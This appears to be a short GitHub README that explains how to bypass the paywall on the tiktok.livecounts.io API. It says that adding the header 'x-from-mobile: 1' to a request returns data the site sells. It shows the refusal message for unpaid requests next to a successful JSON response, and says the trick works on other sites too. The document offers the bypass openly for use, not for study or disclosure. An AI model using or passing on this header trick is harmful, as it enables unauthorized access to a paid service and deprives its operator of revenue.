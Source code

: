 # Livecounts.io-Api-Bypass
> bypass the security for (**tiktok.livecounts.io**) 

- To get access to their api, without pay anything use this header value in a request to the api:

```python
"x-from-mobile: 1"
```
thats all, with this u should get a response from it.

- response without auth:
```json
{
  "success": false,
  "message": "Unathorized. DM @livecountsio on Twitter if you'd like to purchase access to this API."
}
```

response with auth: 
```json
{
  "cache": 1,
  "success": true,
  "method": 1,
  "id": "tiktok",
  "userId": "107955",
  "secUserId": null,
  "verified": false,
  "username": "TikTok",
  "signature": null,
  "avatar": "https://p16-pu-sign-useast8.tiktokcdn-us.com/tos-useast5-avt-0068-tx/7310048624166535211~c5_720x720.jpeg?lk3s=a5d48078&nonce=3371&refresh_token=8a61c005963cab6b132faaacb3ccc130&x-expires=1722128400&x-signature=OXqs9sZ%2FaG6a9Ddsr%2B3L%2BSg0%2Bdc%3D&shp=a5d48078&shcp=81f88b70",
  "stats": {
    "likes": 0,
    "followers": 0,
    "following": 0,
    "videos": 0
  }
}

```

- this header works for some other sites like this (; enjoy!
